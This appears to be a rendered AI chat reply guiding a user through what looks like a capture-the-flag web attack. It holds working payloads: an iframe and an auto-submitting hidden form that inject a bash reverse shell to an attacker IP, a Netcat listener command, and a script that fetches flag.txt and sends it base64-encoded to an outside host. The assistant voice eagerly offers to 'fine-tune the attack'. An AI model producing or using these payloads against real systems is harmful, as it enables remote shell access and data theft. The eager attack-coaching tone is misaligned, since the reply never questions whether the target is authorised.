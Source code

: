 ✅ **One of these will get you a reverse shell!**

---

## **🛠️ If Fetch Fails, Try a Different Delivery Method**

If the **fetch() method is blocked**, we can **inject the payload into an iframe or form submission**.

### **🔄 Iframe Execution**

```html
<iframe src="http://10.10.49.94:8080/?cmd=bash -i >& /dev/tcp/10.10.8.202/5667 0>&1"></iframe>
```

✅ **This forces the victim to load the reverse shell command.**

---

### **🔄 Hidden Form Submission**

```html
<form action="http://10.10.49.94:8080/" method="POST">
  <input type="hidden" name="cmd" value="bash -i >& /dev/tcp/10.10.8.202/5667 0>&1">
</form>
<script>document.forms[0].submit();</script>
```

✅ **If the target supports form-based command execution, this will work.**

---

## **🚀 Final Steps**

1️⃣ **Inject the command execution payload (`id`).**  
2️⃣ **If it works, send a reverse shell payload.**  
3️⃣ **Start a Netcat listener (`nc -lvnp 5667`).**  
4️⃣ **Test different shell methods if `bash -i` is blocked.**

---

### **🔥 What’s Next?**

👉 **Did `id` execute?**  
👉 **Did any of the reverse shell methods work?**  
👉 **Do you need alternative execution methods?**

💡 Let me know what happens, and I’ll help fine-tune the attack! 🚀🔥

---

```js
<script>
fetch("http://10.10.49.94:8080/flag.txt")
  .then(response => response.text())
  .then(flag => {
    fetch("http://10.10.8.202:5667/?flag=" + btoa(flag));
  });
</script>

```
